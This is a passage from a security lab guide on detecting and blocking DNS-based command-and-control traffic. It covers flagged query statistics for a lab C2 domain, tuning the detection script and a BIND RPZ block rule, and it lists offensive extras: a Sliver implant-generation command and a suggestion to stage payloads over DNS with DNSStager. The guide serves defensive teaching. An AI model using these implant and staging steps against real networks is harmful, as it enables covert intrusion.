        - 1NudDmC4FxkBBfyonny9uyBjSuwBV7b9xvWfUuSWRuFZiCtgbhYG1oMPPWQMj8u.gmvCxvuJy72X5MchDyE8cKyJPVRf1wXAMSfFxe7Jz4dxLneqtb5Q1reengCwVNP.xnfgfCb6Woiw.s.commandcontrol.com.
        - backbyhgtkp9awr.s.commandcontrol.com.
        - 6Ngv85FEMSXAhKmgm1WYjPD.s.commandcontrol.com.
        - 3NNhTEvK5RtJQAkJNbxQZparBLVZrv9cu2ZqANxP5mqqzTbL1KuMk5Jzrav5iK8.kZeBUti2dGvcuPBhzr1EDjMvfTygFeaX9vcDKQQ83HXx72YhdDnkas6cxMvLjDM.ZGFXy9XpR7LxLCXad878j8VzN9hQ4A7scGaVmH7JqHZcJLZcjw1mAxB5qJM9nvx.yDe4YrdLSmANP4jbHsNU4Ro7C4L28Q78vGS829K.s.commandcontrol.com.
        - backbyhgtku9aw4.s.commandcontrol.com.
        - 65u6Y3qKJMm1twx5haLqLKBErnY6b3AtgyKoQdsZ8E9d6L1HsHVW3cLeWGmU9gT.4ZHfJbrE24ZdXACnTSQdWMDGc8vivJVPhkswj5wFk2wgH7EWDQ7dn7GbimLogD8.iDphGsJoQ.s.commandcontrol.com.
        - 1WTEgnsvX2ADPtSoWeejgvgkVBCajX96TPcCsUaNTcisn8L7amj9LouY5sukVPG.hqxhttU8xuRLTx9kWkEHXpvnqcnqsPKaEQ2SKzAREcTcdnFNqB5UK6Jz27BY5Vb.rTGUMiUrSnwzcBJcw7JHeppBU5e.s.commandcontrol.com.
        - a2tMe8MeejkwkdiffA1gHD853TpbvHUKyEkGW7WzXzez7KaFYjJR4kPpBq4VSf2.tRn88TFGzym9i3HcQNReGLvUwLG57TmKrZQSEKTjno1YEz3hqqEX44d2ukXHBu6.eCGiTLePLctSYfJHA.s.commandcontrol.com.
        - 6Ngv85FEMSXAyihNWDN5VbD.s.commandcontrol.com.
        - 6Ngv85FEMSXAr18A5SamxMu.s.commandcontrol.com.
        - 6Ngv85FEMSXb4ucFTqqEgdq.s.commandcontrol.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 4.8327 (3.0721)*
        non_letter_ratio: 0.1229 (0.0248)
        hex_char_ratio: 0.2478 (0.3017)
        vowel_ratio: 0.1852 (0.3348)*
        n_gram_2: 10.9626 (20.9079)
        n_gram_3: 7.9124 (9.8561)
        gini_index: 0.9555 (0.8627)*
        classification_error: 0.9133 (0.7978)*
        number_of_labels: 4.6986 (2.2024)*
        average_interval: 0.0712 (1.5459)*
        payload_size: 91.9863 (17.9644)*
     ------------------------------
     ========================================
     SLD: adblockplus.org.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - adblockplus.org.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.5216 (3.0721)
        non_letter_ratio: 0.0000 (0.0248)
        hex_char_ratio: 0.2857 (0.3017)
        vowel_ratio: 0.2857 (0.3348)*
        n_gram_2: 0.0000 (20.9079)*
        n_gram_3: 0.0000 (9.8561)
        gini_index: 0.9082 (0.8627)*
        classification_error: 0.8571 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 16.0000 (17.9644)
     ------------------------------
     ```

   - **Explanation:**

     - **SLD:** Second-Level Domain being analyzed.
     - **Score:** Composite score based on various indicators.
     - **Threshold:** Predefined value to determine if a domain is suspicious.
     - **Flagged Domains:** List of fully qualified domain names under the SLD that are considered suspicious.

## Step 3: Adjust Detection Parameters

The script might flag legitimate domains as false positives. To improve accuracy:

1. **Read the Script:**

   Open `analysis.py` and review how the score is calculated.

2. **Modify Weights and Thresholds:**

   - **Weights:** Adjust the importance of each indicator in the scoring system.
   - **Threshold:** Increase or decrease the threshold value to fine-tune sensitivity.

   For example, you might:

   - Lower the weight of the `non_letter_ratio` if it's causing too many false positives.
   - Increase the threshold from the initial value of `4.5` to reduce sensitivity. Which value could make sense based on the current output ?

3. **Re-run the Analysis:**

   ```bash
   python3 analysis.py
   ```

4. **Evaluate Results:**

   - Ensure that the `commandcontrol.com` domain is still flagged.
   - Verify that legitimate domains are no longer falsely flagged.

## Step 4: Implementing a Response Policy Zone (RPZ)

An RPZ allows you to define custom DNS response policies to block or redirect queries.

1. **Edit the RPZ Zone File:**

   Open `/etc/bind/rpz.zone` and add the malicious domain:

   ```bind
   ; Block domain by returning NXDOMAIN
   s.commandcontrol.com.rpz.       CNAME   *.
   *.s.commandcontrol.com.rpz.       CNAME   *.
   ```
   
   - **Explanation:**
     - The `CNAME .` effectively blocks any queries to `s.commandcontrol.com` by providing a non-existent domain response.

2. **Check BIND RPZ Configuration:**

   ```bash
   named-checkzone rpz /etc/bind/rpz.zone
   ```

1. **Reload BIND Configuration:**

   ```bash
   rndc reload
   ```
2. **Test the Configuration on the Client:**

   - **Attempt to Resolve the Malicious Domain:**

     ```bash
     dig xxx.s.commandcontrol.com
     ```

   - **Expected Output:**

     - The query should fail, indicating that the domain is blocked.

3. **Retest the Implant:**

   - **On the Client Shell:**

     ```bash
     /shared-data/TENDER_HOSPITAL
     ```

   - **Expected Behavior:**

     - The implant should fail to connect to the C2 server due to the DNS query being blocked.

---

# Understanding C2 Basics

It's essential to grasp common terms and concepts related to Command and Control (C2) frameworks.

- **Implant:** Software placed on a target system to maintain access. It acts like an agent, enabling remote control.

- **Beacon:** A communication pattern where the implant periodically checks in with the C2 server for instructions. Beacon intervals are often randomized to avoid detection.

- **Jitter:** The random delay added between beacon intervals to make traffic patterns less predictable.

- **Staged Payload:** A method where a small initial payload (Stage 0) loads subsequent, larger payloads. This approach minimizes initial footprint and can evade detection mechanisms.

- **BOF (Beacon Object File):** Custom code modules that extend the capabilities of a C2 framework. They interact with the C2's APIs to perform specialized tasks.

- **Communications:** Refers to how the implant and C2 server exchange data. Secure and covert channels are crucial. Common methods include DNS, HTTPS, and mutual TLS (mTLS). Some frameworks use legitimate third-party services like Discord or Slack to blend in with normal traffic.

---

# Conclusion

In this lab, we've demonstrated how DNS can be exploited for covert communication between a malicious implant and a C2 server. We've also explored how defenders can detect and mitigate such activities using log analysis and DNS response policies.

By understanding both offensive and defensive perspectives, we gain valuable insights into securing networks against advanced threats.

---

# Additional Exercises

- **Implement with Sliver a Canary Domain to Deactivate the Agent**:

  DNS Canaries are unique per-binary domains that are optionally  inserted during the string obfuscation process. These domains are not  actually used by the implant code and are deliberately *not obfuscated* so that they show up if someone runs `strings` on the implant. If these domains are ever resolved (and you have a `dns` listener running) you'll get an alert telling which specific file was discovered by the blue team.

  Example `generate` command with canaries, make sure to use the FQDN:

  ```
  sliver > generate --http foobar.com --canary 1.example.com.
  ```

  You can view previously generated canaries with the `canaries` command.

- **Implement DNSStager:**

  Try transferring the payload over DNS using tools like [DNSStager](https://github.com/mhaskar/DNSStager).

- **Explore Evasion Techniques:**

  Research methods attackers use to evade DNS-based detections and how defenders can counteract them.

- **Automate RPZ Updates:**

  Develop a script that automatically updates the RPZ based on real-time threat intelligence feeds.

  

---

# References

- [Sliver C2 Framework](https://github.com/BishopFox/sliver)
- [Iodine DNS Tunneling](https://github.com/yarrick/iodine)
- [Understanding DNS RPZ](https://dnsrpz.info/)
- [Detecting DNS Tunneling](https://www.sans.org/white-papers/36297/)
